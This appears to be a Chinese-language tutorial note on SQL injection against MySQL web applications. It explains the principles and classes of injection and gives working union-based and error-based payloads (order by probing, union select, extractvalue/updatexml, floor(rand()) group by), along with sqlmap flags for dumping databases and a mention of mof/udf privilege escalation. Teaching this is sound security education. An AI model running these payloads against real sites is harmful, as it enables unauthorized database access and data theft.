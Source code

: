 - 简介

结构化查询语言(Structured Query Language,缩写：SQL)，是一种特殊的编程语言，用于数据库中的标准数据查询语言。1986年10月，美国国家标准学会对SQL进行规范后，以此作为关系式数据库管理系统的标准语言(ANSI X3. 135-1986),1987年得到国际标准组织的支持下成为国际标准。不过各种通行的数据库系统在其实践过程中都对SQL规范作了某些编改和扩充。所以，实际上不同数据库系统之间不能完全相互通用。

MYSQL ACCESS MSSQL oracle

明显的层次结构
  库名|表名|字段名

# SQL注入(SQL Injection)

是一种常见的Web安全漏洞，攻击者利用这个漏洞，可以访问或修改数据，或者利用潜在的数据库漏洞进行攻击。

## SQL注入基础

- 漏洞原理

针对SQL注入的攻击行为可描述为通过用户可控参数中注入SQL语法，破坏原有SQL结构，达到编写程序时意料之外结果的攻击行为。其成因可以归结为以下两个原因叠加造成的：
1. 程序编写者在处理程序和数据库交互时，使用字符串拼接的方式构造SQL语句
2. 未对用户可控参数进行足够的过滤便将参数内容拼接进入到SQL语句中。

- 注入点可能存在的位置

根据SQL注入漏洞的原理，在用户“可控参数”中注入SQL语法，也就是说Web应用在获取用户数据的地方，只要带入数据库查询，都有存在SQL注入的可能，这些地方通常包括：
 @ GET数据
 @ POST数据
 @ HTTP头部(HTTP请求报文其他字段)
 @ Cookie数据
 ...

   GPC （GET POST Cookie）

- 漏洞危害

攻击者利用SQL注入漏洞，可以获取数据库中的多种信息（例如：管理员后台密码），从而脱取数据库中内容（脱库）。在特别情况下还可以修改数据库内容或者插入内容到数据库，如果数据库权限分配存在问题，或者数据库本身存在缺陷，那么攻击者可以通过SQL注入漏洞直接获取webshell或者服务器系统权限。
  mysql提权 mof|udf

- 分类

SQL注入漏洞根据不同的标准，有不同的分类。但是从数据类型分类来看，SQL注入分为数字型和字符型。

数字型注入就是说注入点的数据，拼接到SQL语句中是以数字型出现的，即数据两边没有被单引号、双引号包括。
字符型注入正好相反

根据注入手法分类，大致可分为以下几个类别。
@ UNION query SQL injection (可联合查询注入)         联合查询
@ Error-based SQL injection (报错型注入)             报错注入
@ Boolean-based blind SQL injection (布尔型注入)     布尔盲注
@ Time-based blind SQL injection (基于时间延迟注入)   延时注入
@ Stacked queries SQL injection (可多语句查询注入)    堆叠查询

- 注入点的判断
 我们会在疑似注入点的连接或参数后面尝试提交以下数据

测试数据和方法不仅限于以下几种，并且还有多种变化。这些语句和变化需要在实战

# MYSQL相关

@ 注释
#
-- （--空格）
/* .... */
/* !... */ 内联查询

@ mysql元数据库information_schema
    tables
      table_name    表名
      table_schema  表所属数据库
    columns
      column_name   字段名
      table_name    字段所属表名
      table_schema  字段所属库名

@ MYSQL常用函数与参数

=|>|<|>=|<=|<>     比较运算符
and|or             逻辑运算符
version()          mysql数据库版本
database()         当前数据库名
user()             用户名
current_user()     当前用户名
system_user()      系统用户名
@@datadir          数据库路径
@@version_compile_os  操作系统版本

length()           返回字符串的长度
substring()        截取字符串
substr()
mid()
                   1. 截取的字符串
                   2. 截取起始位置，从1开始计数
                   3. 截取长度

left()             从左侧开始取指定字符个数的字符串
concat()           没有分隔符的连接字符串
concat_ws()        含有分隔符的连接字符串
group_concat()     连接一个组的字符串

ord()              返回ASCLL码
ascii()            
hex()              将字符串转换为十六进制
unhex()            hex的反向操作
md5()              返回md5值
floor(x)           返回不大于x的最大整数
round()            返回参数x接近的整数
rand()             返回0-1之间的随机浮点数

load_file()        读取文件，并返回文件内容作为一个字符串

sleep()            睡眠时间为指定的秒数
if(true,t,f)       if 判断
find_in_set()      返回字符串在字符串列表中的位置
benchmark()        指定语句执行的次数
name_const()       返回表作为结果

@ 逻辑运算
在SQL语句中逻辑运算与(and)比或(or)的优先级高
[select 1=2 and 1=2 or 1=1;]

- 注入流程

由于关系型数据库系统，具有明显的库/表/列/内容结构层次，所以我们通过SQL注入漏洞获取数据库中信息时候，也依据这样的顺序。

首先获取数据库名，其次获取表名，然后获取列名，最后获取数据。

工具：御剑（扫描后台）

## SQL注入点的判断

?id=35  +1/-1
  select * from tbName where id={$id}
?id=35' 字符型还是数字型
near ''' at line 1
select * from tbName where id=35 and 1=1

?id=35 and 1=1                     是否有布尔类型的状态
?id=35 and 1=2
select * from tbName where id=35 and 1=1
select * from tbName where id=35 and 1=2

?id=35 and sleep(5)                是否有延时

### 联合查询

由于数据库中的内容会回显到页面中来，所以我们可以采用联合查询进行注入

联合查询就是SQL语法中的union select 语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。

select ~~~ union select ~~~

由于虚拟表是二维结构，联合查询会“纵向”拼接两张虚拟的表

实现跨库跨表查询

- 必要条件

@ 两张虚拟的表具有相同的列数
@ 虚拟表对应的列的数据类型相同

- 判断字段个数

可以使用[order by]语句来判断当前select语句所查询的虚拟表的列数。

[order by]语句本意是按照某一列进行排序，在mysql中可以使用数字来代替具体的列名，比如[order by 1]就是按照第一列进行排序，如果mysql没有找到对应的列，就会报错[Unknown column]，我们可以依次增加数字，直到数据库报错

[order by 1 --+]
[order by 2 --+]
...
[order by 15 --+]

## 判断显示位置
  
  得到字段个数之后，可以尝试构造联合查询语句
  
  这里我们并不知道表名，根据mysql数据库特性，select语句在执行的过程中，并不需要直到表名。
  [?id=33 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]
  [?id=33 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null --+]

  页面显示的是第一张虚拟表的内容，那么我们可以考虑让第一张虚拟表的查询条件为假，则显示第二条记录。因此构造SQL语句：
  [?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]
  [?id=-33 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]

  在执行SQL语句注入时，可以考虑火狐浏览器的hackbar
  burp suite

  十六进制解码

  ## 报错注入

  在注入点的判断过程中，发现数据库中SQL语句的报错信息，会显示在页面中，因此可以进行报错注入。

  报错注入的原理，就是在错误信息中执行SQL语句。触发报错的方式很多，具体细节也不尽相同

  - group by 重复键冲突

  [?id=33 and (select 1 from (select count(*),concat((select version() from information_schema.tables limit 0,1),floor(rand()*2))x from information_schema.tables group by x)a) --+]

  - XPATH 报错

  @ extractvalue()
  [?id=33 and extractvalue(1,concat('^',(select version()),'^')) --+]

  @ updatexml()
  [?id=33 and updatexml(1,concat('^',(select datebase()),'^'),1) --+]

```
 口诀
 是否有回显    联合查询
 是否有报错    报错注入
 是否有布尔类型状态  布尔盲注
 绝招          延时注入
```

# sqlmap 

-u url   检测注入点
--dbs    列出所有数据库的名字
--current-db   列出当前数据库的名字
-D       指定一个数据库
--tables  列出表名
-T       指定表名
--columns  列出所有的字段名
